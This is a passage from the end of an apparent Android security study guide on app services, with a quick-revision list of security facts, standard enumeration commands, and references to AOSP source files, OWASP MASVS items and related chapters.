| Enumerate | `dumpsys package r`, `pm query-services -a`/`-n`, `scripts/service-recon.py` |
| Permission is real? | `pm list permissions -f -g` → `protectionLevel` must be `signature` |

### Quick revision

- A service runs on the **main thread**.
- Started and bound are **two independent claims** on one object.
- `START_STICKY` restarts with a **null Intent**.
- `stopSelf(startId)`, never bare `stopSelf()`.
- `system_server` checks the **bind**, not the **calls**.
- `getCallingUid()` in `onBind` returns **your own UID**.
- AIDL is **concurrent and reentrant**. `Messenger` is **serialised**.
- `msg.replyTo` is chosen by the **caller**.
- The descriptor is **free to any caller**.
- The interface token is a **name tag, not a lock**.
- `false` with no exception means **invisible**, not **protected**.
- A `normal` permission is **no permission**.
- `isolatedProcess` is a **positive** finding.
- Accessibility is a **capability**, not a CVE.
- An exported service is a **lead**, not a finding.

---

## 14. References

Annotated links, grouped, with a related-chapters table, live in
[`references/README.md`](references/README.md). The short version:

### AOSP source

| Path | Why |
|---|---|
| `frameworks/base/services/core/java/com/android/server/am/ActiveServices.java` | **The file.** Every start, bind, publish, unbind, foreground and kill decision |
| `frameworks/base/services/core/java/com/android/server/am/ServiceRecord.java` | The object `dumpsys activity services` prints field by field |
| `frameworks/base/services/core/java/com/android/server/am/IntentBindRecord.java` | The `onBind` caching keyed by `Intent.filterEquals` |
| `frameworks/base/core/java/android/app/Service.java` | `startForeground`, `stopSelf`, the `START_*` constants |
| `frameworks/base/core/java/android/app/ContextImpl.java` | `bindServiceCommon`, and the `res < 0` that becomes a `SecurityException` |
| `frameworks/base/core/java/android/app/ActivityThread.java` | `handleCreateService` / `handleBindService` — why `onBind` cannot see the caller |
| `frameworks/base/core/java/android/app/LoadedApk.java` | `ServiceDispatcher`, `InnerConnection`, and the weak reference behind "Service not registered" |
| `frameworks/base/core/java/android/os/Handler.java` | `MessengerImpl.send`, where `msg.sendingUid` is stamped |
| `frameworks/base/core/java/android/accessibilityservice/AccessibilityService.java` | The app-side base class and its capability flags |
| `system/tools/aidl/` | The compiler that generates every `Stub` you will ever read |

### Official documentation

- Android Developers — *Services overview*, *Bound services*, *Foreground
  services*, *AIDL*, *Accessibility service*, *Package visibility filtering*.
- AOSP — *Stable AIDL*, *App Zygote and isolated processes*.

### OWASP

MASVS-PLATFORM-1, MASVS-PLATFORM-3, MASVS-CODE-4, MASVS-AUTH-1,
MASVS-STORAGE-2, and the MASTG platform-interaction chapter. Mapped in §5.4.

### This repository

| Chapter | What it owns that this chapter relies on |
|---|---|
| [25 — Binder](../25-Binder/README.md) | The transport, parcels, interface tokens, and the proof that caller identity cannot be forged |
| [24 — IPC](../24-IPC/README.md) | Surface enumeration and the confused-deputy methodology |
| [21 — App Sandbox](../21-App-Sandbox/README.md) | UIDs, and `isolatedProcess`'s sandbox mechanics |
| [23 — Permissions](../23-Permissions/README.md) | Protection levels — the difference between a gate and a decoration |
| [32 — Manifest](../32-Manifest/README.md) | The declaration audit, including manifest-merge surprises |
| [26 — Intent](../26-Intent/README.md) | Intent resolution, redirection, and `PendingIntent` identity |
| [27 — ContentProviders](../27-ContentProviders/README.md) | `call()`-as-RPC, whose replacement is §3.9 here |
| [53 — Frida](../53-Frida/README.md) | The instrumentation in §7.5 |
| [22 — SELinux](../22-SELinux/README.md) | The `binder:call` decision that precedes everything here |

> **⚠️ Warning**
> No CVE identifiers are quoted anywhere in this chapter. Real service-related
> vulnerabilities exist in quantity, but a wrong identifier is worse than none,
> and the authoritative source is the monthly Android Security Bulletin index —
> use it directly rather than any number recalled from memory. Where a class of
> issue is described here, it is described as a class.
